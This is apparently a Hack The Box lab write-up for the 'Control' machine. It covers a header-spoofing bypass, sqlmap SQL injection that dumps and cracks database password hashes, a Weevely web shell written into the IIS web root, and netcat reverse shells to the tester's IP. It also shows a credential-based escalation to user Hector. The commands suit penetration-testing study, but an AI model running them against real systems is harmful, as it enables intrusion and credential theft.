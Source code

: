 ```yaml
---
title: Hack The Box Labs - Control Writeup [Pentest]
author: vrls
date: 2019-12-28
#categories: [TOP_CATEGORIE, SUB_CATEGORIE]
tags: [hackthebox, htb, control, machine, writeup, pentest, penetration testing]
image: /assets/img/posts/2019/12/9391fb180d67e42baabf97304a3d561c.png #og:image
#image:
#  src: /assets/img/posts/YYYY/MM/MD5SUMHASH.png
#  width: 350   # in pixels
#  height: 350   # in pixels
---
```


## Discovery

Starting with one initial Nmap scan. It shows open ports running the following services:

![image](/assets/img/posts/2019/12/327d328ca1c3194d32e08ded4ae10722.png)

This is a Windows box. MySQL service listening on port **3306** was not recognized. However, Nmap fingerprint returned **MariaDB Server**. It may be caused by a custom installation and/or configuration.

Heading to HTTP, we are presented with this nice page:

![image](/assets/img/posts/2019/12/9391fb180d67e42baabf97304a3d561c.png)

At this point we identified three hyperlinks.

* http://control.htb/index.php
* http://control.htb/about.php
* http://control.htb/admin.php

Also, having a look at the raw HTML in **index.php** page we spot one interesting *comment* inserted by a developer. 

![image](/assets/img/posts/2019/12/51e5a193361d73a0608d5a4012d6a80e.png)

The network share **\\192.168.4.28\myfiles** could be useful later. This IP address is out of our range (10.10.10.1/24)

While trying to load **admin.php** page it throws the following error:

* **Access Denied: Header Missing. Please ensure you go through the proxy to access this page.*

## Vulnerabilities

My first thought was setting up a HTTP proxy configuration in web browser but since we cannot reach that IP address it wouldn't be possible.

Remember how to identify a connection coming from a HTTP proxy: **X-Forwarded-For header**.

This is how verification is done in **admin.php**. It checks if the client is authorized to access this page by looking at IP address whitelist.

Requesting **admin.php** with header **X-Forwarded-For** value set to **192.168.4.28** will load the page as intended and we will be allowed to enter in administration panel.

Burp Proxy was configured to add a custom header to every request in order to explore this panel with more flexibility.

![image](/assets/img/posts/2019/12/11ce822fb1bbfcd413158720bf1bce69.png)

At this time we know this information is being stored and served by the MySQL server we identified previously.

The first functionality is a product search by name. It is worth to try a few characters commonly used in detection for SQL injection.

For example, single quote **'**, semicolon **;** or comment delimiter **--** aiming to modify the original query. 

![image](/assets/img/posts/2019/12/59f0bd11680ed4087aadd818a06e618c.png)

Searching for a single quote as product name returns a *syntax error*. The character messed up with the original query because it is not being properly filtered.

This means that we can inject arbitrary MySQL queries and consequently read and/or modify the database.

Next step, to avoid manual and exaustive techniques, is to execute sqlmap which is one of the most powerful automated tools to explore SQL injection flaws.

Executing 

```bash
$ ./sqlmap.py -u "http://control.htb/search_products.php" --headers "X-Forwarded-For: 192.168.4.28" --data "productName=*" --dbms "mysql" --dbs
```

![image](/assets/img/posts/2019/12/df1b85aa51698dc4d7f574d31c9da7ad.png)

The **warehouse** database contains information that is being displayed in administration panel. There's nothing interesting in it. Only sample rows and few product categories.

Moving on to **mysql**. This database contains tables with juicy info.

In particular, **mysql.user** table has the information about users with permission to access this MariaDB server.


![image](/assets/img/posts/2019/12/9f811852eaa8ca9a8942316f144b2c06.png)

Our next hope is that passwords are not too complex in order to crack them via a dictionary-based attack.

Checking these hashes on **CrackStation.net** gives us the plaintext for two of them. 

![image](/assets/img/posts/2019/12/375ce243580ecbb10a0d5987c1b5ff87.png)


* root : \<unknown>
* manager : l3tm3!n
* hector : l33th4x0rhector

It seems we reached end of the line. We got into the administration panel, exploited one SQL injection flaw and dumped the database. We've also found these fancy credentials.

The goal now is to get a shell, either a command line or PowerShell.

While trying to connect to SQL server remotely with the credentials we found results in access denied. This server doesn't accept remote incoming connections, therefore we need to connect from local network.

At this point we should start enumerating MariaDB server to understand what it is possible to accomplish through the user we are performing MySQL queries, the user **manager**. 


![image](/assets/img/posts/2019/12/3dcd4efc9bdd7bd2ea6d8cddcb4e625f.png)


This user has **FILE privileges** which means we are allowed to read and write files on the server using statements like **LOAD_FILE()** for reading and **INTO OUTFILE** for writing.

We can take advantage of sqlmap features such as *--sql-query "SELECT LOAD_FILE('C:/windows/system32/drivers/etc/hosts');"* to read the local Windows hosts file, for example.


![image](/assets/img/posts/2019/12/7b32b11ec9836dd3913acdae285a8e2b.png)

Great! We just read a system file from the target machine through SQL.

Since this machine has PHP working together with Microsoft IIS we can find a way to upload an arbitrary **.php** file and execute it through web server, by accessing it.

Once again, sqlmap provides a complete toolkit to explore SQL injection flaws. It is possible to write a file to a desired location using both **--file-write \<local_file>** and **--file-dest \<remote_path>** options.

Local file could contain either *<?php phpinfo();?>* or a simple call to PHP *system()* function in order to execute commands on the target machine, although, we don't know what is the absolute path of web root to upload it.

The easiest way is to use **--os-shell** option in sqlmap and let it fuzz automatically using its own pre-set dictionary.

Other method could be getting a nice list for common web root directories (e.g. SecLists) and create a script to read a known file, for example *\<path>/index.php*, through MariaDB where \<path> is iterating each line of the list.

It turns out that the web root of this machine is simply **C:/inetpub/wwwroot/**

By uploading a Weevely generated web-shell to **C:/inetpub/wwwroot/w.php** will allow us to execute simple commands.

```bash
$ ./weevely.py http://control.htb/w.php 1337
```

![image](/assets/img/posts/2019/12/cdde503e153e42f0e66e36bd3ad5cd89.png)

We are executing commands as **NT AUTHORITY/IUSR** which is a built-in user for Microsoft IIS but that's not enough as we don't have sufficient privileges.

Looking at Fidelity user accounts we can see a user named Hector that also exists as a MySQL user. It is a good idea to check if there is password reutilization.

However, we don't have remote desktop connection to the machine and our command prompt is not interactive enough to leverage this shell.

In this case we should spawn a PowerShell in order to have more control. This can be accomplished by uploading nc.exe to web-root and then sending a powershell to our listening netcat server.

On target machine, 

```shell
> nc.exe -e powershell.exe 10.10.15.117 4444 
```

will pop a powershell at our listening netcat. 

![image](/assets/img/posts/2019/12/b6af65daf0bad093257ebfd3c1e8ed11.png)


Ok, this is getting better. Now we can get a powershell as another user by creating a PSCredential object and passing the **-Credential** flag in Invoke-Command.

Setting up the object:

```powershell
$pass = ConvertTo-SecureString 'l33th4x0rhector' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("Fidelity\Hector", $pass)
```

We should run another netcat instance listening on a different port to receive a PowerShell as user and execute the cmdlet.

```powershell
Invoke-Command -Computer Fidelity -Credential $cred -ScriptBlock { cmd.exe "/c C:\inetpub\wwwroot\nc.exe -e powershell.exe 10.10.15.212 4445" } 
```

![image](/assets/img/posts/2019/12/7d16ba94f645d46af3f7f4a531287c37.png)


Got it! Escalated from built-in IIS IUSR to another user **Hector**

From now we're able to read important documents and even pop another PowerShell with higher privileges :) 


## References

* https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For
* https://www.sjoerdlangkemper.nl/2017/03/01/bypass-ip-block-with-x-forwarded-for-header/
* https://portswigger.net/bappstore/807907f5380c4cb38748ef4fc1d8cdbc
* https://github.com/sqlmapproject/sqlmap/wiki/Usage
* https://blogs.msdn.microsoft.com/koteshb/2010/02/12/powershell-how-to-create-a-pscredential-object/
* https://codingbee.net/powershell/powershell-use-credssp-to-run-commands-remotely-with-fewer-issues
